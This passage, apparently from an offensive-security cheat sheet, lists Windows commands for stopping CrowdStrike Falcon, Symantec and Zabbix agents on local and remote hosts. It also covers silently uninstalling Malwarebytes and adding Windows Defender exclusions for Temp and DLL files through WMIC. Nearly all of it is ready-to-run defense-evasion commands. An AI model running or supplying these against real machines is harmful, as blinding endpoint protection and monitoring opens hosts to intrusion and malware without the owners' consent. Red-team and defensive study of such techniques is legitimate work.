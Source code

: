 `PS C:\> icm -computername <IP> -scriptblock {cmd /c "net stop \"CrowdStrike Falcon Sensor Service\""}`

##### 1.1.6.1.2 - Symantec

- **Command Prompt**

`C:\> net stop "Symantec Endpoint Protection"`

`C:\> sc \\<IP> stop "Symantec Endpoint Protection"`

- **Powershell**

`PS C:\> Get-Service -ComputerName <IP> -Name "Symantec Endpoint Protection" | Stop-Service -Force`

`PS C:\> Stop-Service -InputObject $(Get-Service -ComputerName <IP> -Name "Symantec Endpoint Protection")`

`PS C:\> icm -computername <IP> -scriptblock {cmd /c "net stop \"Symantec Endpoint Protection\""}`

##### 1.1.6.1.3 - Zabbix

- **Command Prompt**

`C:\> net stop "Zabbix Agent"`

`C:\> sc \\<IP> stop "Zabbix Agent"`

- **Powershell**

`PS C:\> Get-Service -ComputerName <IP> -Name "Zabbix Agent" | Stop-Service -Force`

`PS C:\> Stop-Service -InputObject $(Get-Service -ComputerName <IP> -Name "Zabbix Agent")`

`PS C:\> icm -computername <IP> -scriptblock {cmd /c "net stop \"Zabbix Agent\""}`

### 1.1.7 - Uninstall Third-Party Endpoints

#### 1.1.7.1 - MalwareBytes

##### 1.1.7.1.1 - Command Prompt

`C:\> cmd.exe /c "C:\Program Files\Malwarebytes\Anti-Malware\unins001.exe" /silent /noreboot`

## 1.2 - WMIC

### 1.2.1 - Add Exclusions

#### 1.2.1.1 - Command Prompt

- **Adding Windows Defender path exclusions with WMIC**

`C:\> wmic /namespace:\\root\Microsoft\Windows\Defender class MSFT_MpPreference call Add ExclusionPath=\"`

`C:\> wmic /namespace:\\root\Microsoft\Windows\Defender class MSFT_MpPreference call Add ExclusionPath=\"\Temp\\"`

`C:\> wmic /namespace:\\root\Microsoft\Windows\Defender class MSFT_MpPreference call Add ExclusionPath=\".dll\"`
